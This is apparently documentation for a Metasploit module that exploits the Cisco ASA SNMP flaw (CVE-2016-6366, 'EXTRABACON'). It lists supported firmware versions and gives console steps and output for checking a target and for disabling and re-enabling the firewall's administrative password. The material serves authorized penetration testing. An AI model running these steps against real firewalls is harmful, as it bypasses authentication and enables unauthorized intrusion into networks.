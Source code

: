 ## Vulnerable Application

### General notes

This is using improved shellcode, has less stages than the Equation Group
version making it more reliable. This makes the SNMP payload packet ~150 less
bytes. Also, the leaked version only supports 8.x, we have it working on 9.x
versions.

To add more version specific offsets, more details and a Lina file offset
finder are available at:

https://github.com/RiskSense-Ops/CVE-2016-6366

### Partial list of supported versions
------------------------------------------------------------
All of the leaked versions are available in the module

- 8.x
- 8.0(2)
- 8.0(3)
- 8.0(3)6
- 8.0(4)
- 8.0(4)32
- 8.0(5)
- 8.2(1)
- 8.2(2)
- 8.2(3)
- 8.2(4)
- 8.2(5)
- 8.2(5)33 `*`
- 8.2(5)41 `*`
- 8.3(1)
- 8.3(2)
- 8.3(2)39 `*`
- 8.3(2)40 `*`
- 8.3(2)-npe `*` `**`
- 8.4(1)
- 8.4(2)
- 8.4(3)
- 8.4(4)
- 8.4(4)1 `*`
- 8.4(4)3 `*`
- 8.4(4)5 `*`
- 8.4(4)9 `*`
- 8.4(6)5 `*`
- 8.4(7) `*`
- 9.x
- 9.0(1) `*`
- 9.1(1)4 `*`
- 9.2(1) `*`
- 9.2(2)8 `*`
- 9.2(3) `*`
- 9.2(4) `*`
- 9.2(4)13 `*`

`*` new version support not part of the original Shadow Brokers leak

`**` We currently can't distinguish between normal and NPE versions from the SNMP strings. We've commented out the
NPE offsets, as NPE is very rare (it is for exporting to places where encryption is crappy), but in the future,
we'd like to incorporate these versions. Perhaps as a bool option?

## Verification Steps

- Start `msfconsole`
- `use auxiliary/admin/networking/cisco_asa_extrabacon`
- `set RHOST x.x.x.x`
- `check`
- `run`
- ssh admin@x.x.x.x, you will not need a valid password
- `set MODE pass-enable`
- `run`
- ssh admin@x.x.x.x, ensure fake password does not work

## Options

## Scenarios

### Checking for a vulnerable version

```
msf > use auxiliary/admin/networking/cisco_asa_extrabacon
msf auxiliary(cisco_asa_extrabacon) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(cisco_asa_extrabacon) > check

[+] Payload for Cisco ASA version 8.2(1) available!
[*] 192.168.1.1:161 The target appears to be vulnerable.
```

### Disabling administrative password

```
  msf auxiliary(cisco_asa_extrabacon) > set
set ACTION            set ConsoleLogging    set Prompt            set RHOST             set TimestampOutput
set CHOST             set LogLevel          set PromptChar        set RPORT             set VERBOSE
set COMMUNITY         set MODE              set PromptTimeFormat  set SessionLogging    set VERSION
set CPORT             set MinimumRank       set RETRIES           set TIMEOUT           set WORKSPACE
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-
  set MODE pass-disable  set MODE pass-enable
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-disable
MODE => pass-disable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-disable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[!] Don't forget to run pass-enable after logging in!
[*] Auxiliary module execution completed
```

### Re-enabling administrative password

```
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-enable
MODE => pass-enable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-enable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[*] Auxiliary module execution completed
```
